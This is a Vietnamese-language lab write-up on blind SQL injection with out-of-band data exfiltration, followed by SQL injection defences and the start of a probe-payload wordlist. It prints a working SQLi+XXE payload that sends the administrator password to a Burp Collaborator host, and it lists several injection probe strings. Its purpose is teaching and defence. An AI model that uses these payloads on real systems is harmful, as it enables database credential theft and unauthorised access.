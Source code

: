 **Lab: Blind SQL injection with out-of-band data exfiltration**
- Sử dụng payload kết hợp SQLi + XXE. Payload sẽ lấy mật khẩu của admin trong DB và chèn nó vào một request gửi về server Burp Collaborator.
```Payload
  '+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||            (SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.1ike81t30r9w4541nunbtndqzh59t4ht.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```
<img width="1919" height="868" alt="image" src="https://github.com/user-attachments/assets/aefac023-762e-4a4d-93b4-553e340a8cb8" />
- Sau khi gửi request bằng payload trên, mở tab Collaborator trong Burp rồi nhấn Poll now.
Một lúc sau, sẽ thấy có các request DNS/HTTP trả về từ server. Trong phần subdomain của request đó có chứa chính là mật khẩu admin.
<img width="1919" height="872" alt="image" src="https://github.com/user-attachments/assets/8201e01a-4e37-41bd-9064-b164b799a565" />
<img width="859" height="213" alt="image" src="https://github.com/user-attachments/assets/3bf25b2e-f293-464e-a280-1419f5c22a70" />
- Vậy mật khẩu admin là : 63r0abq1y0g7d07g1r58
- Vào mục My account, đăng nhập với username administrator và mật khẩu vừa lấy được → Đăng nhập thành công.
<img width="1862" height="803" alt="image" src="https://github.com/user-attachments/assets/682dfce8-1eb7-45b6-8a7f-1a1827c4cda1" />

## 3. Các biện pháp phòng chống SQL Injection

Để tránh SQL Injection, có thể áp dụng các biện pháp sau:
- **Dùng Prepared Statement (truy vấn tham số hóa)**  
  Tách dữ liệu nhập vào khỏi câu lệnh SQL bằng dấu `?`. Cách này ngăn hacker thay đổi cấu trúc truy vấn.  
  Áp dụng cho `WHERE`, `INSERT`, `UPDATE`.  
  Với tên bảng, cột hoặc `ORDER BY` thì nên dùng whitelist hoặc logic riêng.
- **Lọc dữ liệu đầu vào**  
  Sử dụng filter của framework để loại bỏ ký tự đặc biệt (`; " '`) hoặc từ khóa nguy hiểm (`SELECT`, `UNION`).  
  Không nên tự viết filter vì dễ sai sót.
- **Không hiển thị lỗi chi tiết**  
  Khi có lỗi chỉ nên báo chung chung, tránh để lộ exception.  
  Hacker có thể dựa vào thông tin lỗi để suy ra cấu trúc database.
- **Phân quyền trong Database**  
  Không dùng tài khoản `root` hoặc `sa`.  
  Thay vào đó, tạo tài khoản riêng với quyền hạn tối thiểu.  
  Như vậy, kể cả khi bị tấn công cũng hạn chế được rủi ro.
- **Backup dữ liệu thường xuyên**  
  Đảm bảo khi gặp sự cố hoặc bị tấn công, có thể nhanh chóng khôi phục lại dữ liệu.

## 4. Một số wordlist payload liên quan đến SQL Injection

Khi khai thác SQL Injection, các payload thường được tập hợp thành **wordlist** để brute-force hoặc fuzz.  
Dưới đây là một số payload phổ biến:

- **Kiểm tra lỗi cú pháp**
  - `'`
  - `''`
  - `" OR "1"="1`
  - `' OR '1'='1`
  - `') OR ('1'='1`
